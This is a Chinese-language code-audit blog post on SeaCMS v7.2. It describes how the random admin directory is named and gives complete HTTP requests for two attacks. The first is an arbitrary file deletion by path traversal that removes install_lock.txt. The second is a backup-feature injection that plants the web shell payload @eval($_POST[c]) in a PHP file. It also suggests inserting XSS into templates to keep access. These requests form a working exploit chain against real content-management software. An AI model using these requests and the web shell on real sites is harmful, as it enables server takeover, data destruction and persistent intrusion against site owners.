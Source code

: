 ```yaml
---
title: "Seacmsv7.2任意文件删除&Getshell"
date: 2019-01-10T21:17:21+08:00
lastmod: 2019-01-10T21:17:21+08:00
draft: false
tags: ['getshell']
categories: ['代码审计']
comment: true
---
```


海洋cms是为解决站长核心需求而设计的视频内容管理系统，适用于各大视频站点，支持自定义模板和解析接口，是各大视频站长的不错选择之一。官方版本已经在2019年1月10日更新版本到v8.1，请尽快更新版本。

<!--more-->

### 安装
![](https://y4er.com/img/uploads/20190509168375.jpg "安装")
版本信息查看
```http
http://127.0.0.1/seacms/data/admin/ver.txt
```
在安装完之后提示我后台地址为`http://127.0.0.1/seacms/shwpap`，可以看出后缀是随机命名的。
在网站目录搜索`重要`跟进代码
![](https://y4er.com/img/uploads/20190509164151.jpg)
可以看到有一个`randomkeys(6)`方法，继续跟进

![](https://y4er.com/img/uploads/20190509168190.jpg)

后台目录是由程序生成的随机6位字符，可以用burp爆破。不过基数过大，不建议。

![](https://y4er.com/img/uploads/20190509169761.jpg)

### 任意文件删除
`seacms/shwpap/admin_template.php`
![](https://y4er.com/img/uploads/20190509167138.jpg)
可以看到只允许操作路径前11位是`$dirTemplate`变量也就是`../templets`的文件，那么我们可以尝试用`../`来操作

![](https://y4er.com/img/uploads/20190509167239.jpg)

通过edit可以读文件，但是因为程序中写死了，只能读取html、html、js、css、txt文件，不能读取php文件，实战中我们可以通过编辑模板插入xss维持权限。

我们尝试用`del`操作，删除`install\install_lock.txt`文件：

![](https://y4er.com/img/uploads/20190509167072.jpg)

```http
GET /seacms/shwpap/admin_template.php?action=del&filedir=../templets/../install/install_lock.txt HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/seacms/shwpap/admin_template.php?action=custom
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=9vlafp1q6b4cro69qk7bhged06
Connection: close


```

### getshell

可上传类型程序写死，上传文件后缀名白名单写死，sql高级助手执行sql语句双waf，那么真正的突破口出现在备份上

![](https://y4er.com/img/uploads/20190509166250.jpg)

备份完之后备份文件是php后缀，虽然避免了备份文件被下载，但是真正getshell的点也出在这了。

为了请求包简洁，我们只勾选一个表`sea_admin`，修改包中请求的`tablename`参数为我们的恶意代码，然后访问备份路径下的`config.php`文件就可以得到我们的shell了。
poc如下：
```http
POST /seacms/shwpap/ebak/phomebak.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 260
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/seacms/shwpap/ebak/ChangeTable.php?mydbname=seacms&keyboard=sea
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=9vlafp1q6b4cro69qk7bhged06
Connection: close

phome=DoEbak&mydbname=seacms&baktype=0&filesize=1024&bakline=1000&autoauf=1&bakstru=1&dbchar=utf8&bakdatatype=1&mypath=seacms_2019&insertf=replace&waitbaktime=0&readme=&tablename%5B%5D=@eval($_POST[c])&chkall=on&Submit=%E5%BC%80%E5%A7%8B%E5%A4%87%E4%BB%BD
```
![](https://y4er.com/img/uploads/20190509165279.jpg)

注意看路径，以及代码的闭合状况。经过测试，`@eval($_POST[c])`是刚好可用的payload。



参考链接

1. https://xz.aliyun.com/t/3805
2. https://www.seacms.net/doc/logs/
3. http://ahdx.down.chinaz.com/201901/seacms_v7.1.zip